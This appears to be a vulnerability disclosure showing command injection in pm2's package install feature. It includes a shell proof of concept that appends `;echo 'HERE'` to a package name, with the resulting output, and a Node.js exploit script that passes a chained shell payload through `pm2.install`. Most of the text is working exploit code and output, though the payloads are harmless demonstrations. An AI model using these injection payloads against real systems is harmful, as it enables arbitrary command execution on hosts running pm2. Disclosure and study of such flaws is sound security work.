 Packages can be installed using `pm2 install [PACKAGE NAME|PACKAGE URL] [options]` command, both directly from command line and from script using `pm2` API. Arbitrary commands can be injected with either first or second method.

Here's a command which executes `echo 'HERE'` in Bash:

```
bl4de:~/playground/Node $ ./pm2 install "foo.tar.gz;echo 'HERE'"
[PM2][Module] Installing TAR module
[PM2][Module] Installing package foo.tar.gz;echo 'HERE'
tar: Error opening archive: Failed to open 'foo.tar.gz'
HERE -C /var/folders/c8/18ksckq53x3g_086ss5r_x740000gn/T module/package.json
[PM2][ERROR] ENOENT: no such file or directory, open '/var/folders/c8/18ksckq53x3g_086ss5r_x740000gn/T/module/package.json'
┌──────────┬────┬─────────┬──────┬─────┬────────┬─────────┬────────┬─────┬─────┬──────┬──────────┐
│ App name │ id │ version │ mode │ pid │ status │ restart │ uptime │ cpu │ mem │ user │ watching │
└──────────┴────┴─────────┴──────┴─────┴────────┴─────────┴────────┴─────┴─────┴──────┴──────────┘
 Use `pm2 show <id|name>` to get more details about an app
bl4de:~/playground/Node $

```

Also, `pm2` exposes API which can be used from external scripts and this is IMHO much more dangerous attack vector than directly from command line (but still can be exploited via Bash scripts run eg. by `cron` or any other automated fashion).

Here's a simple JS exploit script (based on example provided on `https://pm2.io/doc/en/runtime/reference/pm2-programmatic/` page), which executes malicious commands defined as `payload` (this represents user provided input):


```javascript
// pm2_exploit.js

'use strict'
const pm2 = require('pm2')

// payload - user controllable input
const payload = "foo.tar.gz;touch here;echo whoami>here;chmod +x here;./here>whoamreallyare"

pm2.connect(function(err) {
    if (err) {
        console.error(err)
        process.exit(2)
    }

    pm2.start({

    }, (err, apps) => {
        pm2.install(payload, {}) // injection
        pm2.disconnect()
        if (err) {
            throw err
        }
    })
})
```
